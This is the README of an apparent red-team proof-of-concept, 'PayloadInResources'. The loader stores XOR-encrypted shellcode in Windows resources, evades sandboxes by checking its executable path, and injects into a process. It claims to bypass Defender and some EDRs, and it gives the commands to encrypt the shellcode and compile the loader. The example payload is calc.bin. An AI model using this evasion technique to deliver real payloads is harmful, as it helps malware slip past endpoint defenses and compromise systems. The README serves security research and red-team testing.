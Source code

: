 # PayloadInResources
This is a POC based on the research done by [White Knight Labs](https://github.com/WKL-Sec).

- Sandbox bypass checking if name of the executable is in the path.
- Store/fetch the shellcode in resources and XOR encrypt/decrypt it.
- Using unconventional method for process injection.
The above is capable of bypassing AV(I tested against Defender), possibly some EDRs.

# Usage
1. XOR encrypt the raw shellcode using the `xorencrypt.py`:
```powershell
# python .\xorencrypt.py <payload_file> <output_file> <xor_key>
python .\xorencrypt.py .\calc.bin encrypted.bin ABCD
```
2. Modify the `metadata.rc` to reflect the `<output_file>` name:
```powershell
SHELLCODE_RESOURCE RCDATA "encrypted.bin"
```
3. Compile the `metadata.rc` to `.res`:
```powershell
rc.exe /r /fo .\metadata.res .\metadata.rc
```
4. Modify the `Caue.cpp` line 52 with the XOR key you used and compile with clang++:
```powershell
clang++.exe -O2 -Ob2 -Os -fno-stack-protector -g -Xlinker -pdb:none -Xlinker -subsystem:windows -o Caue.exe Caue.cpp metadata.res -luser32 -lkernel32 -fno-unroll-loops -fno-exceptions -fno-rtti
```

# Credits
- [Tales of AV/EDR Bypass - Double Feature w/ Greg Hatcher & John Stigerwalt](https://www.youtube.com/watch?v=Qo27gQK725g)
- [GregsBestFriend](https://github.com/WKL-Sec/GregsBestFriend)
